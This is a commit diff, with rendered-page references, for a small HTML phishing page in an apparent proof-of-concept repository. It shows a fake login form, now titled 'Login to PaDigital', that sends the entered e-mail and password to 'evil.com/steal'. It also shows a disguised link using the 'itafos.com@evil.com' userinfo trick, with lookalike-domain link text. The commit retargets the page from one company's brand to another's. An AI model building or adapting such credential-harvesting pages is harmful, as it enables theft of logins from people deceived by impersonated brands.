

Before and after one commit to osvaldo-gds/poc-itafos, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -51,13 +51,13 @@
 </head>
 <body>
   <div class="login-box">
-    <h2>Login to Itafos</h2>
+    <h2>Login to PaDigital</h2>
     <form action="https://evil.com/steal" method="POST">
       <input type="text" name="username" placeholder="E-mail" required>
       <input type="password" name="password" placeholder="Senha" required>
       <button type="submit">Entrar</button>
     </form>
-    <a href="https://itafos.com@evil.com/login">https://itafos.com@evil.com/login</a>
+    <a href="https://itafos.com@evil.com/login">https://padigitalcont.com@padigiatalcont.com/login</a>
   </div>
 </body>
 </html>
```
